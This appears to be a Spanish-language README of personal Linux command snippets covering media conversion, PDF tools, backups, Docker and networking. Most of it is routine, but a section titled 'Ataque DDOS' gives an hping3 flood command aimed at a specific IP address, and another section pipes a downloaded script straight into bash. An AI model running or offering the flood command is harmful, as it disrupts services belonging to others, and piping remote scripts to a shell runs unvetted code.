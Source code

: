 # [Comandos Útiles](http://www.mortasoft.com)

Scripts Útiles para el uso personal 

## Lista los discos duros y sus particiones

```sh
lsblk
```

## Grabar la pantalla desde la terminal

```sh
sudo apt-get install libav-tools
avconv -f x11grab -s 1024x768 -r 25 -i :0.0 -qscale 0 screen.mp4
```


## Desbloquear con BlueTooth


```sh
# http://blog.desdelinux.net/blueproximity-o-como-bloquear-tu-pc-al-alejarte-con-tu-telefono-movil/
sudo apt-get install blueproximity
```

## Crear un Servidor multimedia DLNA

```sh
sudo apt-get install mediatomb
```

## Obtener la fecha de instalación del sistema

```sh
ls -lct /etc | tail -1 | awk '{print $6, $7, $8}' 
```

## Respaldar Paquetes instalados 

```sh
dpkg --get-selections > listadepaquetesdebinstalados
#Restaurando los paquetes
dpkg --set-selections < listadepaqueresdebinstalados
apt-get update
apt-get dselect-upgrade
apt-get dist-upgrade
```

## Recuperar discos duros dañados

```sh
badblocks -s -v -n -f /dev/sdb
# NTFS No se monta
sudo ntfsfix /dev/sdXY

```

## Para monitorear el ancho de banda

```sh
# g para ver una grafica
# d para estadisticas detalladas
sudo apt-get install bmon
# Para ver el consumo de ancho de banda por aplicacion
sudo apt-get install nethogs
#Limitar el ancho de banda
sudo wondershaper eth0 1024 512 
# El ejemplo anterior limita la conexión a 1024kbps de bajada y 512kbps de subida
```

## Convertir video de .flv a .avi (XViD)

```sh

sudo apt install ffmpeg

ffmpeg -i video.flv -c:v mpeg4 -vtag xvid video.avi
# Convertir de TIFF a PDF
sudo apt-get install ghostscript libtiff-tools
tiff2pdf -o salida.pdf archivo.TIF
# Convertir video a GIF
ffmpeg -t 5 -ss 00:00:10 -i VIDEO SALIDA.gif
# Convertir de MKV a MP4
ffmpeg -i input.mkv -codec copy output.mp4
```
### Convertir de TIFF a PDF

## Dividir un video en un intervalo determinado

```sh
ffmpeg -i archivo.mp4 -s 0 -t 600 first-10-min.mp4

```

## Muestra los archivos duplicados

```sh
# Muestra los archivos duplicados
fdupes -r /home/usuario
# Elimina los archivos
fdupes -d /home/$USER/Desktop/tecmint
```

## Parches a archivos de texto

```sh
## Crear:
diff -u archivo.antiguo archivo.nuevo >archivo.patch
## Aplicar
patch -p0 archivo.viejo <archivo.patch
```
## Monta una carpeta remota por SSH

```sh
# sudo apt-get install sshfs
sshfs user@www.dominio.com:/home/user /mnt/carpeta
# El usuario debe tener permisos de escritura sobre /mnt/carpeta
sudo modprobe fuse
ssh-keygen en cliente
ssh-copy-id -i $HOME/.ssh/id_rsa.pub usuario@servidor
```

## Desproteger PDF

```sh
qpdf --decrypt protected.pdf unprotected.pdf
# Si el archivo PDF está protegido con un password
qpdf --decrypt --password prueba1234 protected.pdf unprotected.pdf
```

## Sustituir caracteres por otro en un documento masivamente

```sh
## Reemplaza la palabra paco por Francisco
sed -i 's/paco/Francisco/g' *.txt
```

## Unir PDF

```sh
pdfunite ejemplo2.pdf ejemplo3.pdf ejemplo4.pdf ejemplo5.pdf resultado.pdf
## Separar PDF
## Separa un pdf en archivos diferentes
## -f Pagina Inicial
## -l Pagina Final
pdfseparate -f 2 -l 32 documento.pdf resultado_%d.pdf
```

## Convertir PDF a JPG

```sh
convert -verbose -density 300 -trim -quality 100 -flatten -sharpen 0x1.0 archivo.pdf salida.jpg
## Script para hacerlo masivo

#/bin/bash
for file in *.pdf;do 
	convert -verbose -density 300 -trim -quality 100 -flatten -sharpen 0x1.0 $file $file.jpg
done

```

## Crear archivo aleatorio

```sh
# En este caso se utiliza /dev/urandom como fuente de entropía,
# la cual se volcara en el archivo de pruebas llamado archivo.bin.
# En este ejemplo se quiso generar un archivo con un tamaño de 256 MB
# y como /dev/urandom tiene una salida de 512 bytes se utiliza la opción count=500000
dd if=/dev/urandom of=archivo.bin count=500000
```

## Ejecutar un script desde internet

```sh
wget -q -O - https://raw.githubusercontent.com/mortasoft/scripts/master/13.%20Crear%20Ventanas.sh | bash /dev/stdin
```

## Imagen a Texto

```sh
# Fuente: http://geekland.eu/extraer-texto-imagen-con-ocrfeeder/
sudo apt-get install ocrfeeder tesseract-ocr tesseract-ocr-spa tesseract-ocr-eng gocr cuneiform ocropusocrad
ocrfeeder
```

## Buscar texto

```sh
# mydomain.com 
grep -r "mydomain.com" /etc/apache2/
```

## Reiniciar Cinnamon

```sh
killall -HUP cinnamon-session
```

## Respaldo Rsync

```sh
#Respaldo RSYNC
rsync -r -t -v --progress -s mortasoft@koala:/datos/Soporte /home/mortasoft/Koala
```

## Flush Rules

```sh
iptables -F
iptables -X
iptables -Z
iptables -t nat -F
```

## Listar Archivos de una carpeta a un archivo

```sh
for f in *;do echo $f>>archivo.txt;done
```

## Docker

```sh
sudo usermod -aG docker $(whoami)
docker pull ubuntu
docker run ubuntu
#Da un shell interactivo
docker run -it ubuntu
# docker commit -m "Primera Imagen" -a "mortasoft" 7100a984f6f7 mortasoft/ubuntu1
# docker stop container-id
```

## Ataque DDOS

```sh
sudo hping3 192.232.217.2 --flood -V
```


## Importar certificado OpenVPN en Kubuntu

```sh
sudo nmcli connection import type openvpn file Zenbook.ovpn
```

